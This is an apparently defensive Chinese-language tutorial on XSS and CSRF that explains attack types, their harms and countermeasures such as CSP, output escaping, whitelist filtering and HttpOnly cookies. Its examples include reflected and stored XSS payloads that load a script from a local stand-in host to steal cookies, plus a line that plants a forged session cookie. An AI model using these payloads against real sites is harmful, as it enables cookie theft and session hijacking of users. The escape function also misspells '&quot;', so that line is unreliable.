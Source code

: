 # XSS和CSRF
## 一、XSS
XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS重叠，所以只能叫 XSS。
跨站脚本攻击是指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的非本站点HTML标签或JavaScript进行的一种攻击。
跨站脚本攻击有可能造成以下影响:
* 利用虚假输入表单骗取用户个人信息。
* 利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
* 显示伪造的文章或图片。
### XSS攻击分类
* 反射型 - url参数直接注入
```
// 普通
http://localhost:3000/?from=china
// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>
// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>
// 短域名伪造 https://dwz.cn/
// 伪造cookie入侵 chrome
document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxO
DYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```
* 存储型 - 存储到DB后读取时注入
```
// 评论
<script>alert(1)</script>
// 跨站脚本注入
我来了<script src="http://localhost:4000/hack.js"></script>
```
### XSS攻击危害 
* 获取页面数据
* 获取Cookies
* 劫持前端逻辑
* 发送请求
* 偷取网站的任意数据
* 偷取用户的资料
* 偷取用户的秘密和登录态
* 欺骗用户
### 防范手段
* 服务端设置HEAD
```js
ctx.set('X-XSS-Protection', 0) // 禁止XSS过滤
// http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
```
```
0 禁止XSS过滤。
1 启用XSS过滤（通常浏览器是默认的）。

如果检测到跨站脚本攻击，浏览器将清除页面（删除不安全的部分）。
1;mode=block 启用XSS过滤。 如果检测到攻击，浏览器将不会清除页面，而是阻止页面加载。
1;report= (Chromium only)  启用XSS过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用CSP report-uri 指令的功能发送违规
报告。
```
* CSP

内容安全策略 (CSP, Content Security Policy) 是一个附加的安全层，用于帮助检测和缓解某些类型的攻
击，包括跨站脚本 (XSS) 和数据注入等攻击。 这些攻击可用于实现从数据窃取到网站破坏或作为恶意软
件分发版本等用途。
CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。
```js
// 只允许加载本站资源
Content-Security-Policy: default-src 'self'
// 只允许加载 HTTPS 协议图片
Content-Security-Policy: img-src https://*
// 不允许加载任何来源框架
Content-Security-Policy: child-src 'none'
ctx.set('Content-Security-Policy', "default-src 'self'")
// 尝试一下外部资源不能加载
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>
```
* 转义字符

用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义
``` js
// 黑名单转义
function escape(str) {
    str = str.replace(/&/g, '&amp;')
    str = str.replace(/</g, '&lt;')
    str = str.replace(/>/g, '&gt;')
    str = str.replace(/"/g, '&quto;')
    str = str.replace(/'/g, '&#39;')
    str = str.replace(/`/g, '&#96;')
    str = str.replace(/\//g, '&#x2F;')
    return str
}
```
富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉。对于这种情况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在太多，更加推荐使用白名单的方式。
```js
// 白名单转义
const xss = require('xss')
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>')
// -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt;
console.log(html)
```
* HttpOnly Cookie

这是预防XSS攻击窃取用户cookie最有效的防御手段。Web应用程序在设置cookie时，将其属性设为HttpOnly，就可以避免该网页的cookie被客户端恶意JavaScript窃取，保护用户cookie信息。
```js
response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly")
```
## 二、CSRF
CSRF(Cross Site Request Forgery)，即跨站请求伪造，是一种常见的Web攻击，它利用用户已登录的身份，
在用户毫不知情的情况下，以用户的名义完成非法操作。
* 用户已经登录了站点 A，并在本地记录了 cookie
* 在用户没有登出站点 A 的情况下（也就是 cookie生效的情况下），访问了恶意攻击者提供的引诱危险站点 B (B 站点要求访问站点A)。
* 站点 A 没有做任何 CSRF 防御
### CSRF攻击危害
* 利用用户登录态
* 用户不知情
* 完成业务请求
* 盗取用户资金（转账，消费）
* 冒充用户发帖背锅
* 损害网站声誉
### 防范手段
* Referer验证（判断页面的来源referer是否来自本站）
* 验证码(最有效)
* Token 令牌验证（因为token是加在头部的，而csrf在伪造请求的时候只会带上cookie，不会带上token，所以就可以避免攻击）
* 禁止第三方网站带Cookie - 有兼容性问题
## 三、两者区别
* CSRF需要用户先登录网站A，XSS不需要登录。
* CSRF是利用网站A本身的漏洞，去请求网站A的api，XSS是向网站A注入JS代码，然后执行JS里的代码，篡改网站A的内容。